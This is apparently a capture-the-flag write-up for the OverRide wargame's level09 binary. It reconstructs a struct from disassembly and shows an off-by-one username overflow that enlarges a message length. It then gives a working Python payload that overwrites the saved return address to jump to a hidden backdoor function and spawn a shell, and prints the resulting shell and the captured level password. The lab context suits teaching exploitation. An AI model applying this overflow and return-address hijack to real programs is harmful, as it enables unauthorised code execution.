 ```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: userName
>: Welcome, userName
>: Msg @Unix-Dude
>>: hi there
>: Msg sent!
```
```
0x000000000000088c  secret_backdoor
0x00000000000008c0  handle_msg
0x0000000000000932  set_msg
0x00000000000009cd  set_username
0x0000000000000aa8  main
```
prerequisites:

read on Struct Alignment on the stack

https://www.fresh2refresh.com/c-programming/c-struct-memory-allocation/

https://diveintosystems.org/book/C7-x86_64/structs.html

identify a strcut in assembly
```
In assembly language, a "struct" is typically represented as a block of
data with a fixed layout, where each field has a known offset from the
beginning of the block.

To detect if an assembly program uses a struct, you can look for code
that accesses memory locations using specific offsets. For example,
if you see code that loads or stores data at a specific offset relative to
a base address, it may be accessing a struct.

Another clue to look for is the use of instructions that calculate 
addresses based on a base address and an offset. For example, the 
"lea" (load effective address) instruction can be used to calculate the
address of a field in a struct by adding the offset to the base address.

Finally, you can look for code that uses the "mov" (move) instruction 
to copy data from one memory location to another. If the source 
and destination addresses are both relative to a base address and have
offsets that correspond to the layout of a struct, it may be copying a struct.
```

```
main()
{
    handle_msg();
}
```

```
handle_msg()
{
// same buffer passed

    <+11>:	lea    -0xc0(%rbp),%rax     rbp-192     
    <+18>:	add    $0x8c,%rax           140     
    <+24>:	movq   $0x0,(%rax)          some_struct->message[140] = 0
    <+31>:	movq   $0x0,0x8(%rax)
    <+39>:	movq   $0x0,0x10(%rax)      rax+16 = 0
    <+47>:	movq   $0x0,0x18(%rax)      rax+24 = 0
    <+55>:	movq   $0x0,0x20(%rax)      rax+32 = 0
    <+63>:	movl   $0x8c,-0xc(%rbp)     rbp-12 = 140
    <+70>:	lea    -0xc0(%rbp),%rax     
    <+80>:	callq   <set_username>      set_username(rbp-192)   set_username(&some_struct)
    <+85>:	lea    -0xc0(%rbp),%rax     
    <+95>:	callq   <set_msg>           set_msg(rbp-192)
}
```
```c
typedef struct some_struct {
  char message[140];
  char user[40]; 
  size_t msg_len;
                        // size could be deduced from 
                        // "<set_username+157>:	cmpl   $0x28,-0x4(%rbp)", checks if 40 char was passed to the array   
                        // or using Ghidra/BinaryNinja
  
} t_struct;
```
```
set_username()
{
    <+54>:	callq   <puts@plt>
    >: Enter your username
    
    <+92>:	lea    -0x90(%rbp),%rax
    <+99>:	mov    $0x80,%esi
    <+107>:	callq   <fgets@plt>
}
```

```
set_msg()
{
    <set_msg+92>:	lea    -0x400(%rbp),%rax
    <set_msg+99>:	mov    $0x400,%esi
    <set_msg+104>:	mov    %rax,%rdi
    <set_msg+107>:	callq  0x555555554770 <fgets@plt>
    
    (gdb) x/s $rbp-0x400
     0x7fffffffe0c0:	 'A' <repeats 21 times>, "\n"
    
    <set_msg+128>:	lea    -0x400(%rbp),%rcx                "message"    
    <set_msg+135>:	mov    -0x408(%rbp),%rax                ""
    <set_msg+142>:	mov    %rcx,%rsi
    <set_msg+145>:	mov    %rax,%rdi
    <set_msg+148>:	call   <strncpy@plt>     strncpy($rbp-0x400, )
}
```

secret_backdoor() isnt called anywhere, which has system()

```
    <+33>:	call   <fgets@plt>                     ; fgets(input, 0x80, stdin)
    <+38>:	lea    rax,[rbp-0x80]
    <+42>:	mov    rdi,rax
    <+45>:	call   <system@plt>                    ; system(input)
```

```
=> 0x555555554910 <handle_msg+80>:	callq  0x5555555549cd <set_username>

>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

(gdb) x/60wx $rsp

0x7fffffffe558:	0xf7a9608f	0x41414141	0x41414141	0x41414141
0x7fffffffe568:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe578:	0x41414141	0x41414141	0x41414141	0x00000041

size of the buff 10 * 4 + 1 = 41

the extra one is the next elem in the struct, the length of the msg, we overwrite it successfuly
we will just need the exact offset to get from the start of the struct message the the EIP of handl_msg()

```
so copy 41 bytes from the user input to some_struct->username
```
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA        
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>:           ==> takes 41
> msg:
```
********-------------------********

some further debug for more illustration

buffer addr: `<handle_msg+70>:	lea    -0xc0(%rbp),%rax`

```
(gdb) x/60wx $rbp-0xc0
0x7fffffffe4d0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4e0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4f0:	0x42424242	0x42424242	0x0000000a	0x00000000
0x7fffffffe500:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe510:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe520:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe530:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000000	0x41414141
0x7fffffffe560:	0x41414141	0x41414141	0x0000000a	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe580:	0x00000000	0x0000008c	0xffffe5a0	0x00007fff
```

set_username() buffer ==> A's ==> 0x7fffffffe584 - 0x7fffffffe55c     = strlen(username) = 40

set_msg() buffer      ==> B's ==> p/x 0x7fffffffe55c - 0x7fffffffe4d0 = strlen(message) = 0x8c / 140

so 41 A's will overwrite the message len

===================

find the func EIP

===================

```
(gdb) info breakpoints
1       breakpoint     keep y   0x00000000000008c0 <handle_msg>
2       breakpoint     keep y   0x0000000000000aa8 <main>

(gdb) define hook-stop
>x/15i $rip
>end
(gdb)

our Buffer starts here

=> 0x555555554915 <handle_msg+85>:	lea    -0xc0(%rbp),%rax
   0x55555555491c <handle_msg+92>:	mov    %rax,%rdi
   0x55555555491f <handle_msg+95>:	callq  0x555555554932 <set_msg>
   
(gdb) x/x $rbp-0xc0
0x7fffffffe4d0

(gdb) info frame
rip at 0x7fffffffe598

p/d 0x7fffffffe598 - 0x7fffffffe4d0 = 200
```

the offset is 200 + secret_backdoor = 208
```
(gdb) p &secret_backdoor
0x88c
```
PIE/ASLR enabled

i should get the address in runtime
```
(gdb) p &secret_backdoor
0x55555555488c
```


```py
import struct

user = "A" * 40

msg_len = "\xd0"

msg = "B" * 200

eip = struct.pack('Q', 0x55555555488c)

bash = "/bin/sh"

print user + msg_len
print msg + eip
print bash
```

```
level09@OverRide:~$ python py.py > pay
level09@OverRide:~$ (cat pay; cat) | ./level09


```

 Q: unsigned long long aka 8 bytes
 
 I:  unsigned integer (4 bytes)

```
level09@OverRide:~$ chmod 777 .
level09@OverRide:~$ nano py.py
level09@OverRide:~$ python py.py > pay
level09@OverRide:~$ (cat pay ; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
pwd
/home/users/level09
whoami
end
cat //home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```





